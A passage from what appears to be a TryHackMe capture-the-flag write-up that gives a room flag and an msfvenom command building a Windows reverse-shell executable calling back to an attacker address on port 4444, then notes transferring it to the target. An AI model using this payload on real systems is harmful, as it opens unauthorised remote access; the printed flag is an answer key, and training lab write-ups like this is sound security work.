     * Login back and get the shell

        ![task6-flag10](./images/task6-flag10.png)

* Insert flag11 here

    `THM{LET_ME_HOLD_THE_DOOR_FOR_YOU}`

    * Create our payload

        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.251.6 LPORT=4444 -f exe -o revshell.exe
        ```

        ![task6-payload2](./images/task6-payload2.png)

    * Transfer our payload to target machine

        ![task6-download](./images/task6-download.png)
